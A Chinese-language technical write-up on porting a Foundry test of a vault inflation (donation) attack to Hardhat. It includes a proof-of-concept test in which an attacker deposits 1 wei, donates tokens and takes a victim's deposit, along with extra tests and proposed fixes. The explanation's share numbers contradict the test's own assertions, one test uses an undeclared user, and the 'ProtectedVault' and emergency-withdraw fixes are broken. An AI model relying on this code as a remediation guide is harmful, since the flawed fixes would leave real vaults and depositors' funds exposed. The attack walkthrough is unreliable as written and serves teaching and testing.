

# Vault 通货膨胀攻击测试迁移文档

## 概述

本文档记录了将 Vault 合约的 Foundry 测试用例迁移到 Hardhat 测试框架的完整过程。这个测试用例主要用于演示 Vault 合约中的通货膨胀攻击漏洞。

## 漏洞原理详解

### 漏洞成因

Vault 合约的份额计算机制存在以下问题：
1. 份额计算公式：
   ```solidity
   shares = amount * totalSupply / totalAssets
   ```

2. 关键问题点：
   - totalAssets 包含了直接转入的代币
   - totalSupply 不包含直接转入部分
   - 导致份额计算失真

### 攻击流程图



### 技术原理分析

1. 初始状态
   ```javascript
   状态变量:
   - totalSupply = 0
   - vault.balance = 0
   ```

2. 攻击者首次存款
   ```javascript
   deposit(1):
   - shares = 1    // 因为 totalSupply = 0
   - totalSupply = 1
   - vault.balance = 1
   ```

3. 直接转账
   ```javascript
   transfer(100 ETH):
   - totalSupply 仍然 = 1  // 关键：不变
   - vault.balance = 100 ETH + 1
   ```

4. 受害者存款
   ```javascript
   deposit(100 ETH):
   shares = 100 ETH * 1 / (100 ETH + 1) ≈ 1
   - totalSupply ≈ 2
   - vault.balance = 200 ETH + 1
   ```

5. 攻击者提款
   ```javascript
   withdraw(1):
   amount = 1 * (200 ETH + 1) / 2 ≈ 100 ETH
   ```

## 环境设置与依赖

### 项目依赖

```json
{
  "devDependencies": {
    "@nomicfoundation/hardhat-ethers": "^3.0.0",
    "@types/chai": "^4.3.0",
    "@types/mocha": "^10.0.0",
    "chai": "^4.3.0",
    "ethers": "^6.0.0",
    "hardhat": "^2.17.0",
    "ts-node": "^10.9.0",
    "typescript": "^5.0.0"
  }
}
```

### Hardhat 配置

```typescript
// hardhat.config.ts
import { HardhatUserConfig } from "hardhat/config";
import "@nomicfoundation/hardhat-ethers";

const config: HardhatUserConfig = {
  solidity: {
    version: "0.8.24",
    settings: {
      optimizer: {
        enabled: false,
        runs: 200,
      },
    },
  },
  networks: {
    hardhat: {
      mining: {
        auto: true,
        interval: 0,
        mempool: {
          order: "fifo"
        }
      }
    }
  }
};

export default config;
```

## 测试框架差异

### Foundry vs Hardhat 主要区别

1. 测试框架结构
   - Foundry: 使用 Solidity 编写测试
   - Hardhat: 使用 TypeScript/JavaScript 编写测试

2. 测试合约实例化
   ```solidity
   // Foundry
   token = new ERC20("MyToken", "MK", 18);
   ```
   ```typescript
   // Hardhat
   const TokenFactory = await ethers.getContractFactory("MyToken");
   token = await TokenFactory.deploy();
   await token.waitForDeployment();
   ```

3. 账户操作
   ```solidity
   // Foundry
   vm.prank(user0);
   token.approve(address(vault), UINT256_MAX);
   ```
   ```typescript
   // Hardhat
   await token.connect(user0).approve(await vault.getAddress(), UINT256_MAX);
   ```

4. 断言方式
   ```solidity
   // Foundry
   vm.assertEq(token.balanceOf(user0), 300 ether);
   ```
   ```typescript
   // Hardhat
   expect(await token.balanceOf(await user0.getAddress())).to.equal(parseEther("300"));
   ```

## 迁移步骤详解

### 1. 基础框架设置

```typescript
import "@nomicfoundation/hardhat-ethers";
import { ethers } from "hardhat";
import { expect } from "chai";
import { parseEther } from "ethers";

describe("Vault Inflation Attack Test", function () {
    // 变量声明
    let token: any;
    let vault: any;
    let deployer: any;
    let user0: any;
    let user1: any;
    const UINT256_MAX = "115792089237316195423570985008687907853269984665640564039457584007913129639935";
```

### 2. 测试环境准备

将 Foundry 的构造函数转换为 Hardhat 的 beforeEach：

```typescript
beforeEach(async function () {
    // 获取测试账户
    [deployer, user0, user1] = await ethers.getSigners();

    // 部署代币合约
    const TokenFactory = await ethers.getContractFactory("MyToken");
    token = await TokenFactory.deploy();
    await token.waitForDeployment();

    // 部署 Vault 合约
    const VaultFactory = await ethers.getContractFactory("Vault");
    vault = await VaultFactory.deploy(await token.getAddress());
    await vault.waitForDeployment();

    // 铸造代币给测试用户
    await token.mint(await user0.getAddress(), parseEther("200"));
    await token.mint(await user1.getAddress(), parseEther("200"));

    // 授权 Vault 使用代币
    await token.connect(user0).approve(await vault.getAddress(), UINT256_MAX);
    await token.connect(user1).approve(await vault.getAddress(), UINT256_MAX);
});
```

### 3. 辅助函数转换

将 Foundry 的 print 函数转换为 async 函数：

```typescript
async function print() {
    console.log("======print result======");
    console.log("user0 balance=>", await token.balanceOf(await user0.getAddress()));
    console.log("user1 balance=>", await token.balanceOf(await user1.getAddress()));
    console.log("user0 share=>", await vault.balanceOf(await user0.getAddress()));
    console.log("user1 share=>", await vault.balanceOf(await user1.getAddress()));
    console.log("vault share=>", await vault.totalSupply());
}
```

### 4. 测试用例转换

将主要测试逻辑转换为 Hardhat 风格：

```typescript
it("should demonstrate inflation attack", async function () {
    // User 0 deposits 1
    await vault.connect(user0).deposit(1);
    await print();

    // User 0 transfer 100 * 1e18
    await token.connect(user0).transfer(await vault.getAddress(), parseEther("100"));
    await print();

    // User 1 deposits 100 * 1e18
    await vault.connect(user1).deposit(parseEther("100"));
    await print();

    // User 0 withdraws all
    await vault.connect(user0).withdraw(1);
    await print();

    // Assert final state
    expect(await token.balanceOf(await user0.getAddress())).to.equal(parseEther("300"));
    expect(await vault.balanceOf(await user1.getAddress())).to.equal(0);
});
```

## 遇到的问题及解决方案

1. 构造函数参数问题
   - 问题：最初尝试使用 `TokenFactory.deploy("MyToken", "MK", 18)` 导致参数错误
   - 解决：检查合约实现后发现 MyToken 不需要构造参数，修改为 `TokenFactory.deploy()`

2. 地址获取方式
   - 问题：Hardhat 中不能直接使用地址
   - 解决：使用 `await user.getAddress()` 获取地址

3. 大数处理
   - 问题：处理 ETH 金额时需要考虑 decimals
   - 解决：使用 `parseEther()` 函数处理 ETH 单位转换

## 测试结果验证

通过执行 `npx hardhat test test/Vault.test.ts` 验证测试结果：

```bash
Vault Inflation Attack Test
  ✔ should demonstrate inflation attack

1 passing (86ms)
```

测试输出显示：
1. user0 初始存入 1 wei 获得 1 份额
2. 直接转入 100 ETH 到 Vault（不通过 deposit）
3. user1 存入 100 ETH
4. user0 提取 1 份额获得 300 ETH
5. 攻击成功展示

## 安全影响

此测试用例成功展示了 Vault 合约中的一个重要安全漏洞：
- 攻击者可以通过直接转账方式操纵份额计算
- 导致其他用户的资金被不当分配
- 建议在实际部署前修复此漏洞

## 额外测试场景

### 1. 边界条件测试

```typescript
it("should handle zero deposits correctly", async function () {
    await expect(
        vault.connect(user0).deposit(0)
    ).to.be.revertedWith("Cannot deposit 0");
});

it("should handle maximum uint256 values", async function () {
    const maxUint256 = ethers.MaxUint256;
    await token.mint(await user0.getAddress(), maxUint256);
    await expect(
        vault.connect(user0).deposit(maxUint256)
    ).to.be.revertedWithPanic(0x11); // arithmetic overflow
});
```

### 2. 重入攻击测试

```typescript
it("should be safe from reentrancy attacks", async function () {
    // 部署攻击合约
    const AttackerFactory = await ethers.getContractFactory("VaultAttacker");
    const attacker = await AttackerFactory.deploy(vault.getAddress());
    
    // 转账代币给攻击合约
    await token.transfer(attacker.getAddress(), parseEther("100"));
    
    // 尝试重入攻击
    await expect(
        attacker.attack()
    ).to.be.reverted;
});
```

### 3. 并发操作测试

```typescript
it("should handle concurrent deposits and withdrawals", async function () {
    // 准备多个用户并行操作
    const operations = [user0, user1, user2].map(async (user) => {
        // 每个用户存入然后立即提取
        await vault.connect(user).deposit(parseEther("1"));
        await vault.connect(user).withdraw(parseEther("1"));
    });
    
    // 并行执行所有操作
    await Promise.all(operations);
    
    // 验证最终状态
    expect(await vault.totalSupply()).to.equal(0);
});
```

## 漏洞修复方案

### 1. 使用 ERC4626 标准实现

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/extensions/ERC4626.sol";

contract SafeVault is ERC4626 {
    constructor(IERC20 asset) ERC4626(asset) ERC20("Safe Vault", "stkTKN") {}
}
```

### 2. 添加转账保护

```solidity
contract ProtectedVault is Vault {
    // 追踪直接转账的代币
    uint256 private _donatedTokens;
    
    function _beforeTokenTransfer(address from, address to, uint256 amount) internal virtual override {
        if (from == address(0)) { // mint
            return;
        }
        if (to == address(this)) {
            _donatedTokens += amount;
        }
    }
    
    function totalAssets() public view override returns (uint256) {
        return token.balanceOf(address(this)) - _donatedTokens;
    }
}
```

### 3. 实现紧急提款功能

```solidity
contract EmergencyVault is Vault {
    bool public emergencyStop;
    
    function emergencyWithdraw() external {
        require(emergencyStop, "Not in emergency");
        uint256 shares = balanceOf(msg.sender);
        _burn(msg.sender, shares);
        bool success = token.transfer(msg.sender, shares);
        require(success, "Transfer failed");
    }
    
    function setEmergencyStop(bool stop) external onlyOwner {
        emergencyStop = stop;
    }
}
```

## 部署和验证流程

### 1. 部署脚本

```typescript
// scripts/deploy-vault.ts
import { ethers } from "hardhat";

async function main() {
    // 部署代币
    const Token = await ethers.getContractFactory("MyToken");
    const token = await Token.deploy();
    await token.waitForDeployment();
    console.log("Token deployed to:", await token.getAddress());
    
    // 部署 Vault
    const Vault = await ethers.getContractFactory("Vault");
    const vault = await Vault.deploy(await token.getAddress());
    await vault.waitForDeployment();
    console.log("Vault deployed to:", await vault.getAddress());
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

### 2. 验证步骤

```bash
# 1. 编译合约
npx hardhat compile

# 2. 运行测试
npx hardhat test test/Vault.test.ts

# 3. 部署到测试网
npx hardhat run scripts/deploy-vault.ts --network sepolia

# 4. 验证合约
npx hardhat verify --network sepolia <VAULT_ADDRESS> <TOKEN_ADDRESS>
```

## 性能优化建议

1. Gas 优化：
   - 使用 immutable 变量
   - 优化存储槽使用
   - 批量处理操作

2. 安全加固：
   - 实现速率限制
   - 添加暂停机制
   - 实现多重签名管理

3. 测试改进：
   - 添加模糊测试
   - 实现不变量测试
   - 添加压力测试

## 参考资料

1. [ERC4626: Tokenized Vault Standard](https://eips.ethereum.org/EIPS/eip-4626)
2. [DeFi Security Best Practices](https://consensys.github.io/smart-contract-best-practices/attacks/defi-attacks/)
3. [Hardhat TypeScript Guide](https://hardhat.org/hardhat-runner/docs/guides/typescript)
4. [OpenZeppelin Contracts](https://docs.openzeppelin.com/contracts/)